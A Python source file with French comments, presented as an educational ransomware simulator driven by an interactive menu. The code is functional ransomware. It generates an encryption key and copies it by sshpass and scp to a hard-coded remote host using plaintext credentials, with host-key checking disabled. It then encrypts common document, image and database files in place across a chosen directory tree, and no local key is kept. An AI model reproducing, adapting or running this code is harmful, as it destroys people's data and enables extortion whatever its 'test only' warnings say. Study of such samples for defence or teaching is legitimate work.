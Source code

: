 #!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - VERSION AVEC MENU INTERACTIF
import os
import sys
import subprocess
from cryptography.fernet import Fernet
from pathlib import Path

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
SSH_PASSWORD = "doranco"  # Mot de passe en clair (à utiliser uniquement en environnement de test)
REMOTE_DIR = "/home/doranco/cle_dechiffrement"
KEY_FILE = "decryption_key.key"

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        self.target_exts = {'.txt', '.doc', '.docx', '.pdf', '.jpg', '.sql'}
        
    def clear_screen(self):
        """Efface l'écran du terminal"""
        os.system('cls' if os.name == 'nt' else 'clear')
    
    def show_banner(self):
        """Affiche une bannière stylisée"""
        self.clear_screen()
        print("""
██████╗  █████╗ ███╗   ██╗███████╗ ██████╗ ███╗   ███╗
██╔══██╗██╔══██╗████╗  ██║██╔════╝██╔═══██╗████╗ ████║
██████╔╝███████║██╔██╗ ██║███████╗██║   ██║██╔████╔██║
██╔══██╗██╔══██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║
██║  ██║██║  ██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║
╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝
        """)
        print("=== SIMULATEUR ÉDUCATIF - MENU PRINCIPAL ===")
        print("⚠️ À utiliser uniquement en environnement de test ⚠️\n")
        print(f"🔐 Compte SSH utilisé: {SSH_USER}@{SSH_SERVER}")
        print(f"🔑 Mot de passe SSH: {SSH_PASSWORD}\n")

    def generate_key(self):
        """Génère une clé de chiffrement"""
        print("\n🔑 Génération de la clé...")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        print(f"✅ Clé générée: {self.key.decode()[:12]}...")
        return True

    def transfer_key_ssh(self):
        """Transfère la clé via SSH natif"""
        if not self.key:
            print("\n❌ Aucune clé générée!")
            return False

        try:
            print("\n🔄 Transfert de la clé...")
            
            # Crée un fichier temporaire
            with open(KEY_FILE, 'wb') as f:
                f.write(self.key)
            
            # Commande SSH pour créer le répertoire distant
            ssh_cmd = f'sshpass -p {SSH_PASSWORD} ssh {SSH_USER}@{SSH_SERVER} "mkdir -p {REMOTE_DIR}"'
            subprocess.run(ssh_cmd, shell=True, check=True)
            
            # Commande SCP pour transférer la clé
            scp_cmd = f'sshpass -p {SSH_PASSWORD} scp -o StrictHostKeyChecking=no {KEY_FILE} {SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/{KEY_FILE}'
            subprocess.run(scp_cmd, shell=True, check=True)
            
            # Nettoyage
            os.remove(KEY_FILE)
            
            print(f"\n📤 Clé transférée avec succès vers :")
            print(f"   Serveur: {SSH_SERVER}")
            print(f"   Utilisateur: {SSH_USER}")
            print(f"   Chemin: {REMOTE_DIR}/{KEY_FILE}")
            return True
            
        except subprocess.CalledProcessError as e:
            print(f"\n❌ Échec du transfert SSH: {e}")
            return False

    def encrypt_file(self, filepath):
        """Chiffre un fichier"""
        try:
            if Path(filepath).suffix.lower() not in self.target_exts:
                return False

            with open(filepath, 'rb') as f:
                data = f.read()
            
            encrypted = self.cipher.encrypt(data)
            
            with open(filepath, 'wb') as f:
                f.write(encrypted)
            
            return True
        except Exception as e:
            print(f"⚠️ Erreur sur {filepath}: {e}")
            return False

    def encrypt_directory(self, path='.'):
        """Chiffre un dossier"""
        if not os.path.exists(path):
            print("\n❌ Le dossier spécifié n'existe pas!")
            return

        encrypted = errors = 0
        print(f"\n🔒 Début du chiffrement de: {path}")
        
        for root, _, files in os.walk(path):
            for file in files:
                if Path(file).suffix.lower() in self.target_exts:
                    if self.encrypt_file(os.path.join(root, file)):
                        encrypted += 1
                    else:
                        errors += 1
        
        print(f"\n✅ Chiffrement terminé!")
        print(f"   Fichiers chiffrés: {encrypted}")
        print(f"   Erreurs: {errors}")

    def show_menu(self):
        """Affiche le menu interactif"""
        while True:
            self.show_banner()
            print("Options disponibles:")
            print("1. Générer une nouvelle clé")
            print("2. Transférer la clé actuelle")
            print("3. Chiffrer un dossier")
            print("4. Tout faire (mode automatique)")
            print("0. Quitter\n")
            
            choice = input("Votre choix (0-4): ")
            
            if choice == "1":
                self.generate_key()
            elif choice == "2":
                if self.key:
                    self.transfer_key_ssh()
                else:
                    print("\n❌ Vous devez d'abord générer une clé!")
            elif choice == "3":
                if self.key:
                    path = input("\nEntrez le chemin du dossier à chiffrer: ")
                    self.encrypt_directory(path)
                else:
                    print("\n❌ Vous devez d'abord générer une clé!")
            elif choice == "4":
                print("\n🚀 Mode automatique activé...")
                if self.generate_key():
                    if self.transfer_key_ssh():
                        path = input("\nEntrez le chemin du dossier à chiffrer: ")
                        self.encrypt_directory(path)
            elif choice == "0":
                print("\n👋 Au revoir!")
                sys.exit(0)
            else:
                print("\n❌ Option invalide!")
            
            input("\nAppuyez sur Entrée pour continuer...")

if __name__ == '__main__':
    try:
        # Vérifie que sshpass est installé pour l'authentification par mot de passe
        subprocess.run(['sshpass', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        
        # Vérifie que SSH est installé
        subprocess.run(['ssh', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=True)
        
        sim = RansomwareSimulator()
        sim.show_menu()
        
    except FileNotFoundError:
        print("\n❌ Erreur: sshpass et OpenSSH doivent être installés")
        print("Installez-les avec: sudo apt install sshpass openssh-client")
        sys.exit(1)
    except KeyboardInterrupt:
        print("\n\n⏹️ Opération annulée par l'utilisateur")
        sys.exit(0)
    except Exception as e:
        print(f"\n❌ Erreur inattendue: {e}")
        sys.exit(1)